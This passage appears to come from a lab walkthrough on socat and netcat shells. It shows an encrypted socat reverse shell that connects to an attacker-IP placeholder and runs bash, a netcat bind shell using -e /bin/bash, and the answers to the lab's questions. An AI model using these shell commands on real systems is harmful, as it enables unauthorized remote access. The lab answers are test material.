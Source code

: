 ### Encrypted Fully-Interactive TTY Shell (Linux Only)
You can combine the stable TTY shell with encryption.

**Attacker (Listener):**
```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 FILE:`tty`,raw,echo=0
```

**Target (Encrypted Interactive Shell Connection):**
```bash
socat OPENSSL:<ATTACKER-IP>:<PORT>,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
This gives you a fully interactive, encrypted bash shell — stable and secure.

### Final Tips
- Always remember: the certificate goes with the listener.
- Use -d -d flags for verbosity if troubleshooting:
  ```bash
  socat -d -d [rest-of-command]
  ```
- Most targets don’t have Socat by default. If needed, upload a precompiled static binary of Socat.

The following image shows an OPENSSL Reverse shell from a Linux target. As usual, the target is on the right, and the attacker is on the left:

![image](https://github.com/user-attachments/assets/5fde3a5f-0a39-42fb-83e5-e66612c3604a)

This technique is invaluable for stealthy and secure remote access during red team operations or penetration tests.

### Question 1:
What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"

**Answer:** socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0

### Question 2:
If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?

**Answer:** socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane

## Task 8 Common Shell Payloads
Before diving into creating payloads with msfvenom, I took some time to explore a few commonly used payloads using the tools we've already covered — mainly netcat.

In one of the earlier tasks, there was mention of setting up netcat to act as a listener for a bind shell, so I decided to try that out first. Some versions of netcat, like the nc.exe for Windows (which is available in Kali under /usr/share/windows-resources/binaries) and the netcat-traditional version used in Kali Linux, support the -e flag. This flag allows you to execute a command once a connection is made. For example:
```bash
nc -lvnp <PORT> -e /bin/bash
```
